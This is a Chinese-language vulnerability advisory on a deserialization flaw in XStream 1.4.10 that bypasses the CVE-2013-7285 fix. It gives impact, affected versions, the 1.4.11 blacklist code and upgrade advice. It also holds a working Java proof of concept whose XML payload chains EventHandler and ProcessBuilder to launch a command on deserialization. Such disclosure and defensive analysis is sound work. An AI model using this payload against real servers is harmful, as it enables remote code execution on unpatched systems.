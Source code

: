 ## 前言  

XStream是常用的Java类库，用来将对象序列化成XML （JSON）或反序列化为对象。

## 漏洞简介  

Xstream 1.4.10版本存在反序列化漏洞CVE-2013-7285补丁绕过。

## 漏洞危害 

当使用Xstream 1.4.10版本且未对安全框架进行初始化时，攻击者即可通过精心构造的请求包在使用Xstream的服务器上进行远程代码执行。

## 影响范围 

### 产品

> Xstream

### 版本

> Xstream1.4.10版本

### 组件

> Xstream

## 漏洞复现

### PoC

```java
package com.bigo;

import com.thoughtworks.xstream.XStream;

import java.beans.EventHandler;
import java.io.IOException;
import java.util.Set;
import java.util.TreeSet;

/**
 * Created by cfchi on 2019/7/26.
 */
public class Main {
    public static String expGen(){
        XStream xstream = new XStream();
        Set<Comparable> set = new TreeSet<Comparable>();
        set.add("foo");
        set.add(EventHandler.create(Comparable.class, new ProcessBuilder("calc"), "start"));
        String payload = xstream.toXML(set);
        System.out.println(payload);
        return payload;
    }
    public static void main(String[] args) throws IOException {
        expGen();
        XStream xStream = new XStream();
        String payload = "<sorted-set>\n" +
                "    <string>foo</string>\n" +
                "    <dynamic-proxy>\n" +
                "    <interface>java.lang.Comparable</interface>\n" +
                "        <handler class=\"java.beans.EventHandler\">\n" +
                "            <target class=\"java.lang.ProcessBuilder\">\n" +
                "                <command>\n" +
                "                    <string>cmd.exe</string>\n" +
                "                    <string>/c</string>\n" +
                "                    <string>calc</string>\n" +
                "                </command>\n" +
                "            </target>\n" +
                "     <action>start</action>"+
                "        </handler>\n" +
                "    </dynamic-proxy>\n" +
                "</sorted-set>\n";
       xStream.fromXML(payload);
    }
}

```

### 1.4.7版本白名单



### 1.4.10版本，黑名单未开启



### 1.4.11版本，黑名单开启

> blacklist

```java
private class InternalBlackList implements Converter {
    private InternalBlackList() {
    }

    public boolean canConvert(Class type) {
        return type == Void.TYPE || type == Void.class || !XStream.this.securityInitialized && type != null && (type.getName().equals("java.beans.EventHandler") || type.getName().endsWith("$LazyIterator") || type.getName().startsWith("javax.crypto."));
    }

    public void marshal(Object source, HierarchicalStreamWriter writer, MarshallingContext context) {
        throw new ConversionException("Security alert. Marshalling rejected.");
    }

    public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
        throw new ConversionException("Security alert. Unmarshalling rejected.");
    }
}
```



## 修复方案
> 升级Xstream到1.4.11版本

## 参考
https://mp.weixin.qq.com/s/bght8tIwtNqnaidVZjPdSw  
http://x-stream.github.io/changes.html#1.4.11
> 原文：http://www.polaris-lab.com/index.php/archives/658/

